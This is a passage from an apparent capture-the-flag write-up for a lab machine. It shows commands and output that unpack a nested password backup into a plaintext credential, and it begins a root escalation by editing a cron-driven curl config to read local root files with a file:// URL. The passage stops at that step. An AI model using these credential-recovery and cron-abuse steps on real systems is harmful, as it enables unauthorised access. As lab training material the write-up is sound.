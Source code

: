 ```
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$ xxd -r password_backup
BZh91AY&SYHAP)ava:4NnT#@%`
"n                         z@i4hdi9hQdh4i5nh*}y.<~x>    sVTzHߢ1V`Fs
  ۇ7j:XdRk )p7۫;9PCYP    HB*     G U@rrE8PH
www-data@curling:/home/floris$ xxd -r password_backup > /tmp/1
www-data@curling:/home/floris$ cd /tmp/
www-data@curling:/tmp$ file 1
1: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ bzcat 1
l[passwordrBZh91AY&SY6Ǎ@@Pt t"dhhOPIS@68ET>P@#I bՃ|3x(*N&Hk1x"{]B@6m
www-data@curling:/tmp$ bzcat 1 > 2
www-data@curling:/tmp$ file 2
2: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/tmp$ zcat 2
BZh91AY&SY6Ǎ@@Pt t"dhhOPIS@68ET>P@#I bՃ|3x(*N&Hk1x"{]B@6
www-data@curling:/tmp$ zcat 2 > 3
www-data@curling:/tmp$ file 3
3: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ bzcat 3
password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll
www-data@curling:/tmp$ bzcat 3 > 4
www-data@curling:/tmp$ file 4
4: POSIX tar archive (GNU)
www-data@curling:/tmp$ tar -xvf 4
password.txt
www-data@curling:/tmp$ cat password.txt
5d<wdCbdZu)|hChXll
```
Now we can use this password to login as floris.  
As we do have password, if we want we can login via ssh to get a more reliable connection.

## Root
Once we are logged in as floris, as we may have noticed from previous steps, we can find a directory "admin-area".  
If we browse this directory, we will find two files:
```
floris@curling:~$ cd admin-area/
floris@curling:~/admin-area$ ls -la
total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 .
drwxr-xr-x 6 floris floris  4096 May 22  2018 ..
-rw-rw---- 1 root   floris    25 Dec 15 22:03 input
-rw-rw---- 1 root   floris 14236 Dec 15 22:03 report
floris@curling:~/admin-area$ date
Wed Dec 15 22:03:37 UTC 2021
```
As we can see there are two files: input and report, both modified in the current time. So we can suppose that there is a cron that somehow is editing this files.  
If we inspect input we can see the following:
```
floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"
```
now if we use SimpleHTTPServer and change this file setting our ip instead of localhost, we can se that a request hits our webserver.  
So now we can suppose that there is a curl that gets executed every minute inside crontab and write output inside the 'report' file.
to verify this we can change the input file as follows:
```
url = "file:///var/spool/cron/crontabs/root"
```